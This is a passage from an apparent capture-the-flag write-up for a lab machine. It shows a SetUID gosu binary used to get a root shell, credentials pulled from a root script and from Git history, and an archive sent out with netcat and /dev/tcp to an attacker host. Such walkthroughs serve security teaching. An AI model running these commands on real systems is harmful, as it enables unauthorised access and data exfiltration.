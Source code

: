 It finds a non-default binary with the **SetUID bit** set, called _/usr/sbin/gosu_.
This is probably the [Simple Go-Based program gosu](https://github.com/tianon/gosu) to escalate privileges to another user as an alternative to `sudo`.

Using it to execute `bash` as root:
```
gosu root bash
```

The file _/root/session.sh_ in the home directory of root contains credentials:
```
(...)
curl -d 'user_name=kaneki&password=12345ILoveTouka!!!' http://172.18.0.2:3000/user/login
```

These may be the credentials of _Kaneki_ for the **Gogs web login**, which got exploited before.
There is a compressed file in the directory called _/root/aogiri-app.7z_.

Listener on local client:
```
nc -lvnp 9001 > aogiri-app.7z
```

Downloading it to our local client:
```
cat aogiri-app.7z > /dev/tcp/10.10.14.11/9001
```

Decompressing the file:
```
7z x aogiri-app.7z
```

The 7z file contains source code for the **Aogiri-Chatapp**.

### Enumerating Aogiri-Chatapp

The directory is initialized as a **Git repository**:
```
git log
```

It support MySQL since one of the commits:
```
git diff ed5a88cbbc084cba1c0954076a8d7f6f5ce0d64b
```
```
(...)
+spring.datasource.url=jdbc:mysql://172.18.0.1:3306/db
+spring.datasource.username=kaneki
+spring.datasource.password=jT7Hr$.[nF.)c)4C
```

There is a hidden commit that is not shown with the `git log` command:
```
git reflog
```

In this commit, there is a different password:
```
git diff e29ad43
```
```
(...)
-spring.datasource.url=jdbc:mysql://localhost:3306/db
+spring.datasource.url=jdbc:mysql://172.18.0.1:3306/db
 spring.datasource.username=kaneki
-spring.datasource.password=7^Grc%C\7xEQ?tb4
+spring.datasource.password=jT7Hr$.[nF.)c)4C
```
